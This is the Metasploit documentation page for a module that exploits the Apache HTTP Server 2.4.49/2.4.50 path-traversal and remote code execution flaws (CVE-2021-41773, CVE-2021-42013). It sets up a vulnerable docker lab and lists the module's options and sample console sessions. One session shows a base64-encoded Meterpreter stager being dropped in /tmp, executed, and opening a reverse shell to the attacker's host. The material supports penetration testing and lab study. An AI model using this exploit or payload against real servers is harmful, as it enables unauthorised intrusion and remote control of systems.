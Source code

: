 This module exploits an unauthenticated RCE vulnerability which exists in Apache version 2.4.49 (CVE-2021-41773)
and 2.4.50 (CVE-2021-42013).

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a
path traversal attack to map URLs to files outside the expected document root.

If files outside of the document root are not protected by "require all denied" these requests can succeed.

Additionally this flaw could leak the source of interpreted files like CGI scripts.

If CGI scripts are also enabled for these aliased paths, this could allow for remote code execution.

It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient (CVE-2021-42013).

## Vulnerable Application

This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and Apache 2.4.50 and
not earlier versions.

### Make your lab

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

--or--

```
docker run -dit --name CVE-2021-42013 -p 8080:80 -v /opt/apache2.4.50:/usr/local/apache2/htdocs httpd:2.4.50
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-42013
docker start CVE-2021-42013
```

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/apache_normalize_path_rce`
3. `set RHOSTS [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CVE**

The vulnerability to use (Accepted: CVE-2021-41773, CVE-2021-42013). Default: CVE-2021-42013

**DEPTH**

Depth for path traversal. Default: 5

**TARGETURI**

Base path. Default: `/cgi-bin`

## Scenarios

### Command Line Interface

```
msf exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_normalize_path_rce) > set target 1
target => 1
msf exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf exploit(multi/http/apache_normalize_path_rce) > set cmd uname -a
cmd => uname -a
msf exploit(multi/http/apache_normalize_path_rce) > run

[+] uname -a
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Generated payload: uname -a
[!] http://172.20.4.11:8080 - Dumping command output in response
Linux 184ef33f9859 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf exploit(multi/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf exploit(multi/http/apache_normalize_path_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.11:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/PJaT; chmod +x /tmp/PJaT; /tmp/PJaT; rm -f /tmp/PJaT
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.11
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.4.11:48540) at 2021-10-08 13:58:13 +0400
[!] This exploit may require manual cleanup of '/tmp/PJaT' on the target

meterpreter >
```

## References

  1. <https://httpd.apache.org/security/vulnerabilities_24.html>
  2. <https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse>
  3. <https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/apache/apache-httpd-rce.yaml>
  4. <https://github.com/projectdiscovery/nuclei-templates/commit/9384dd235ec5107f423d930ac80055f2ce2bff74>
  5. <https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis>
